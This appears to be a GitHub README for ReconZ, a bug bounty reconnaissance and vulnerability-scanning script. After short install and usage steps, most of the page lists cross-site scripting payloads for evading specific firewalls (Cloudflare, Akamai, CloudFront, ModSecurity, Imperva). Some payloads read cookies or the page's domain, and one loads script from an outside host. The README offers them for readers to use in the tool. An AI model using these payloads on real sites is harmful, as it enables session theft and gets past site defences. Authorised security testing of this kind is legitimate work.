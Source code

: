 Bug bounty automatization code to search for: 𝐚𝐥𝐢𝐯𝐞 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐎𝐩𝐞𝐧𝐫𝐞𝐝𝐢𝐫𝐞𝐜𝐭, 𝐇𝐨𝐬𝐭 𝐇𝐞𝐚𝐝𝐞𝐫 𝐈𝐧𝐣𝐞𝐜𝐭𝐢𝐨𝐧, 𝐂𝐨𝐫𝐬 𝐄𝐱𝐩𝐥𝐨𝐢𝐭𝐬, 𝐩𝐚𝐫𝐚𝐦𝐞𝐭𝐞𝐫𝐬 𝐨𝐧 𝐚𝐥𝐥 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐂𝐫𝐨𝐬𝐬 𝐒𝐢𝐭𝐞 𝐒𝐜𝐫𝐢𝐩𝐭𝐢𝐧𝐠, 𝐑𝐞𝐦𝐨𝐭𝐞 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐋𝐨𝐜𝐚𝐥 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐒𝐐𝐋 𝐈𝐧𝐣𝐞𝐜𝐭𝐢𝐨𝐧 (𝐌𝐚𝐧𝐲 𝐦𝐨𝐫𝐞 𝐬𝐨𝐨𝐧)

# INSTALLATION

```bash

git clone https://github.com/Anhedoniczz/ReconZ

cd Reconz

chmod +x *.sh
chmod +x Resources/*.sh
./installer.sh

```
# USAGE 

```
usage: ./recon.sh -u domain                     
```


# EXAMPLE
```
./recon.sh -u example.com
```


# FOR ADVANCED XSS 
The tool uses a basic XSS payload to exploit the websites. If you want to do something more advanced, like bypass waf, or use any other payload, you can change line 65.
Some payloads to bypass specific wafs: 


# Paylaods to bypass Cloudflare waf 
```
<svg/onload=window["al"+"ert"]1337>

<Img Src=OnXSS OnError=confirm(1337)>

<Svg Only=1 OnLoad=confirm(document.domain)>

<svg onload=alert&#0000000040document.cookie)>

<sVG/oNLY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>

%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

```

# Paylaods to bypass Akamai waf 
```
';k='e'%0Atop['al'+k+'rt'](1)//

'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>

```

# Paylaods to bypass Cloudfront waf 
```
">'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

';window/*aabb*/['al'%2b'ert'](document./*aabb*/location);//

">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//'>

```

# Paylaods to bypass MOD SECURITY waf 
```
<svg onload='new Function["Y000!"].find(al\u0065rt)'>
```

# Paylaods to bypass Imperva waf 
```
<Img Src=//X55.is OnLoad%0C=import(Src)>

<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9;//</div">
```

XSS Payloads are from Lostsec Channel <3
You can check the waf type using wappalyzer and replace xss payloads based on that.

Also feel free to change SQLI payloads in ErrorSQLPayloads.txt, just add the list of your choice and it will work perfectly fine.


Creds to authors of used tools:

https://github.com/gotr00t0day

https://github.com/projectdiscovery/

https://github.com/felipemelchior

https://github.com/s0md3v/Corsy

https://github.com/lc/

https://github.com/tomnomnom/

https://github.com/rix4uni
